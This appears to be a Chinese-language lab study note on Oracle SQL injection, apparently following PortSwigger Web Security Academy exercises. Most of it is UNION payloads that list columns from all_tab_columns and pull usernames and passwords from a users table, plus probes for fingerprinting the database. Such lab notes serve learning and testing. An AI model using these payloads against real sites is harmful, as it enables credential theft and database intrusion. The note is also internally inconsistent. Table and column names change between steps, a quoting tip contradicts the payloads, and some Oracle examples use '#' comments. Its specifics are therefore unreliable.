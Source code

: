 找到可能的表名USERS_OJOCYX，接着查可能的列名本身（在all_tab_columns里找）：

```SQL
Lifestyle'+union+select+COLUMN_name,'null'+from+all_tab_columns+where+table_name='USERS_LTNNSA'--
#踩坑：只能是双引号不能是单引号
```

找到可能的列PASSWORD_BOGRBE，USERNAME_HUXQNN查列中的数据：

```sql
Lifestyle'+union+select+PASSWORD_TPSLJZ,USERNAME_EGBQKW+from+USERS_LTNNSA--
```



# Oracle数据库的SQL注入

> 不同版本的数据库+检查数据库
>
> [Examining the database in SQL injection attacks | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database)

## Oracle与Mysql的最大区别

- **Oracle会对字段的类型敏感**，也就是说我们需要在字符型字段使用字符型类型，在整型字段使用整型数据才可以。

  比如不能直接：

  ```SQL
  ' UNION select 1,2#
  ```

  而是应该：

  ```SQL
  ' UNION select 'null','null' from dual# 
  ```

- 如果是Oracle数据库，**在进行union注入时，要额外加上`from dual`**

  比如：

  ```SQL
  Accessories'union select null,null from dual--
  Accessories'+UNION+SELECT+'abc','def'+FROM+dual--
  ```

  `dual`是Oracle中内置的一个表格

- **不会有信息模式的视图**

## T10判断是否是Oracle数据库

例如：（假设有两个列）

```sql
' order by 2--     返回200正确
' union select null,null--		返回500错误
```
